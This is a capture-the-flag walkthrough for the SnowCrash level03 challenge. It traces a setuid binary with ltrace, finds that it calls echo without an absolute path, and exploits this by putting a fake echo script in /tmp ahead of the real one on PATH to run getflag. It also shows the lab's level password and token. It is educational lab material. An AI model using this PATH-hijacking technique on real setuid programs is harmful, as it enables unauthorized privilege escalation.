 ## level03
```
flag02@SnowCrash:~$ su level03
Password: kooda2puivaav1idi4f57q8iq
level03@SnowCrash:~$
```
```
level03@SnowCrash:~$ ls -al
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
Use `ltrace` program that simply runs the specified command until it exits.
It intercepts and records the dynamic library calls as well as the system calls executed by the program.  
Another you can use `strings`
```
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                         = 2003
geteuid()                                                                         = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                               = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                               = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
level03@SnowCrash:~$
```
`system("/usr/bin/env echo Exploit me")` shows that echo command is executed without absolute path. This is a common path vulnerability.

So real `echo` can be faked with a script or symlink. For best practice is recommended to execute binaries by absolute path to avoid this type of vulnerability.  
```
level03@SnowCrash:~$ echo /bin/getflag > /tmp/echo && chmod +x /tmp/echo && PATH=/tmp:$PATH
```
```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
